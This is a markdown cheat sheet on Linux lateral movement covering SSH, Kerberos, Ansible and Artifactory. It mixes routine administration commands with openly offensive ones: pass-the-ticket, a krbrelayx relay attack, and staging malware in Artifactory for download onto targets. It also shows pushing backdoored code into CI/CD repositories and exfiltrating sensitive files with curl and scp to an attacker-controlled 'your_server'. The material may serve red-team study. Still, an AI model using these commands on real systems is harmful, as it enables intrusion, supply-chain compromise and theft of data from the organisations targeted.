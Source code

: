 Here's a cheat sheet for Linux lateral movement, with a focus on SSH, Kerberos, Ansible, and Artifactory.

### ** SSH (Secure Shell)**

#### ** SSH Key Generation and Authentication**
- **Generate an SSH key pair**:
  ```bash
  ssh-keygen -t ed25519 -C "your_email@example.com"
  ```
- **Copy SSH public key to a remote server**:
  ```bash
  ssh-copy-id user@hostname
  ```
- **Agent forwarding** (use your local SSH keys on remote servers):
  ```bash
  ssh -A user@hostname
  ```

#### **SSH Port Forwarding**
- **Local port forwarding**:
  ```bash
  ssh -L local_port:remote_address:remote_port user@hostname
  ```
- **Remote port forwarding**:
  ```bash
  ssh -R remote_port:localhost:local_port user@hostname
  ```
- **Dynamic port forwarding (SOCKS proxy)**:
  ```bash
  ssh -D local_port user@hostname
  ```

### **Kerberos**

#### **Kerberos Authentication**
- **View Kerberos tickets**:
  ```bash
  klist
  ```
- **Obtain a Kerberos ticket-granting ticket (TGT)**:
  ```bash
  kinit user@REALM
  ```
- **Use a specific keytab file for Kerberos authentication**:
  ```bash
  kinit -kt /path/to/keytab user@REALM
  ```

#### ** Kerberos Ticket Manipulation**
- **Pass-the-Ticket (PTT)**:
  ```bash
  export KRB5CCNAME=/path/to/ccache
  ```
- **Impersonate a user with Kerberos TGT**:
  ```bash
  kinit -k -t /path/to/keytab other_user@REALM
  ```

#### ** Kerberos Delegation Attacks**
- **Check for services with unconstrained delegation**:
  ```bash
  ldapsearch -x -b "dc=domain,dc=com" "(userAccountControl:1.2.840.113556.1.4.803:=16777216)" dn
  ```
- **Perform a Kerberos relay attack**:
  ```bash
  krbrelayx.py -t target_ip -c "whoami"
  ```

### ** Ansible**

#### ** Running Playbooks**
- **Run an Ansible playbook**:
  ```bash
  ansible-playbook playbook.yml -i inventory
  ```
- **Run a playbook with elevated privileges**:
  ```bash
  ansible-playbook playbook.yml -i inventory --become
  ```

#### **Ansible Configuration and Secrets Management**
- **Encrypt secrets with Ansible Vault**:
  ```bash
  ansible-vault encrypt secrets.yml
  ```
- **Decrypt secrets with Ansible Vault**:
  ```bash
  ansible-vault decrypt secrets.yml
  ```
- **Rekey an encrypted file**:
  ```bash
  ansible-vault rekey secrets.yml
  ```

#### ** Lateral Movement via Ansible**
- **Execute commands on multiple hosts**:
  ```bash
  ansible all -i inventory -m shell -a "command"
  ```
- **Upload files to multiple hosts**:
  ```bash
  ansible all -i inventory -m copy -a "src=/path/to/local/file dest=/path/to/remote/file"
  ```
- **Pivoting through an Ansible-managed host**:
  - Set up a jump host in your inventory:
    ```ini
    [jump_host]
    host1 ansible_host=192.168.1.1

    [target_hosts]
    host2 ansible_host=192.168.1.2 ansible_ssh_common_args='-o ProxyCommand="ssh -W %h:%p user@host1"'
```

### **Artifactory**

#### ** Accessing Artifactory Repositories**
- **Download an artifact from Artifactory**:
  ```bash
  curl -u user:password -O "http://artifactory.domain.com/artifactory/repo/path/to/artifact"
  ```
- **Upload an artifact to Artifactory**:
  ```bash
  curl -u user:password -T localfile "http://artifactory.domain.com/artifactory/repo/path/to/artifact"
  ```

#### **Enumerating Artifactory**
- **List repositories**:
  ```bash
  curl -u user:password "http://artifactory.domain.com/artifactory/api/repositories"
  ```
- **Search for artifacts by name**:
  ```bash
  curl -u user:password "http://artifactory.domain.com/artifactory/api/search/artifact?name=artifact_name"
  ```

#### **Leveraging Artifactory for Lateral Movement**
- **Use Artifactory as a staging area**:
  - Upload malicious scripts or binaries:
    ```bash
    curl -u user:password -T /path/to/malware "http://artifactory.domain.com/artifactory/repo/path/to/malware"
    ```
  - Download the payload on the target machine:
    ```bash
    curl -O "http://artifactory.domain.com/artifactory/repo/path/to/malware"
    ```
  
- **Compromise CI/CD pipelines**:
  - Inject malicious code into repositories:
    ```bash
    curl -u user:password -T /path/to/backdoored_code "http://artifactory.domain.com/artifactory/repo/path/to/source_code"
    ```

### **Other Lateral Movement Techniques**

#### ** Pivoting through Compromised Hosts**
- **SSH Dynamic Port Forwarding (SOCKS Proxy)**:
  ```bash
  ssh -D 1080 user@compromised_host
  ```
  Configure your proxy settings to use `localhost:1080` as a SOCKS proxy.

#### ** Data Exfiltration**
- **Exfiltrate data via HTTP/HTTPS**:
  ```bash
  curl -T /path/to/sensitive/data "http://your_server/upload"
  ```
- **Exfiltrate data via SSH**:
  ```bash
  scp /path/to/sensitive/data user@your_server:/path/to/destination
  ```

